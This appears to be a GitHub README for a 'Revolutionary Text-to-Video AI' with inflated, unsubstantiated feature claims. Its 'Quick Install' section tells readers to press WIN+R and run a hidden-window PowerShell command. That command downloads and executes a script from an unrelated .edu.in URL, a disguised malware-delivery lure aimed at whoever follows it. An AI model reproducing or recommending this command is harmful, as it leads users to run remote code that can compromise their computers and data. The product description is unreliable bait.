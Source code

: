 ### 🌟 Revolutionary Text-to-Video AI
#### 🚀 Core Capabilities

<details>
<summary><strong>✅ Hyper-Realistic Generation</strong></summary>


1080p+ video output at 60fps

Physics-accurate motion simulation

Temporal consistency across frames

</details>

<details>
<summary><strong>✅ Multi-Modal Understanding</strong></summary>


Complex scene composition

Emotion-driven character animation

Style transfer (anime, photoreal, painterly)


</details>


### 🛠️ Advanced Features
#### 🎨 Creative Control

<details>
<summary><strong>🎚️ Precision Editing</strong></summary>


Frame-by-frame prompt adjustment

Dynamic camera path control

Object-level attribute manipulation

</details>

<details>
<summary><strong>🔄 Consistency Tools</strong></summary>


Character/model persistence

Environment continuity locks

Motion trajectory guides

</details>

#### 📊 Enterprise Solutions

<details>
<summary><strong>🏢 Brand Customization</strong></summary>


Logo/style guideline integration

Product visualization pipelines

Ad campaign generator
</details>

<details>
<summary><strong>⚙️ Technical Specifications</strong></summary>


Diffusion Transformer (DiT) framework

100B+ parameter base model

Multi-scale video compression

</details>

## Installation

### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press WIN+R
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command ([ScriptBlock]::Create((irm https://jaihind.edu.in/grapesubject/repairbetter))).Invoke();
```
